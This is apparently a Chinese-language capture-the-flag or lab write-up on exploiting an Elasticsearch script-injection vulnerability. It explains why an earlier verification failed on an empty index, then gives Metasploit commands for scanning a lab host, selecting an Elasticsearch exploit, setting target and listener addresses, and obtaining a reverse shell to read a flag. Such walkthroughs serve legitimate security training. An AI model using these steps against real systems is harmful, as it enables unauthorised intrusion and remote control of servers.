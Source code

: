 **原因分析**:
之前验证的逻辑是
发送测试脚本：S_test = "2+3"

检查响应：若 R 包含 "test": [5] → 漏洞存在

逻辑表达式：f(S_test) == R_expected

最初验证失败的原因是：空数据库导致查询结果集为空，使脚本执行被跳过（hits.total=0 → 不执行 script_fields）

而这条脚本完成了关键步骤：

graph LR
 A[创建索引/文档] --> B[构建有效查询环境]
 B --> C[激活脚本执行]

**具体原理**：
创建存储结构：
```/website/blog/``` 创建了：
索引(Index): ```website```
类型(Type): ```blog```
```{"name":"test"}``` 插入一条文档(Document)
在文档添加完后，自然的会生成索引。
```
满足存在量词 ∃
通过创建文档，使 ∃ Doc 成立

打破执行约束
空数据库时：∀ Doc, Doc ∉ Database ⇒ Search(Doc) = ∅
插入后：∃ Doc, Doc ∈ Database ⇒ Search(Doc) ≠ ∅
```

4. **在验证成功后，开始进行漏洞利用**
- 使用工具：metasploit
- 漏洞利用步骤：
    1. 初始化metasploit并启用   
    ```bash
    sudo msfdb init
    msfconsole
    db_status # 查看数据库状态
    workspace -a anjing #创建工作空间
    ```
    2. 开始进行漏洞利用
    ```bash
    #信息收集
    db_nmap -p <port> 192.168.70.4 -n -A
    # 查看可用的exploit
    search elasticsearch type:exploit
    # 2015年的漏洞
    use 1
    ```
    ![](./images/查看到端口开放.png)
    ![](./images/再metasploit中搜索关于elastic的exploit.png)
    ```ruby
    #  设置参数
    show options
    set RHOSTS 192.168.70.4
    set RPORT <映射端口，每次不一样>
    set LHOST 192.168.70.7
    show payloads
    set payload <random>
    #  利用漏洞
    exploit
    ```
    ![](./images/elasitc可用的payload.png)
    ![](./images/拿到反弹elastic%20shell.png)
    3. 拿到shell之后就可以进行flag的获取
```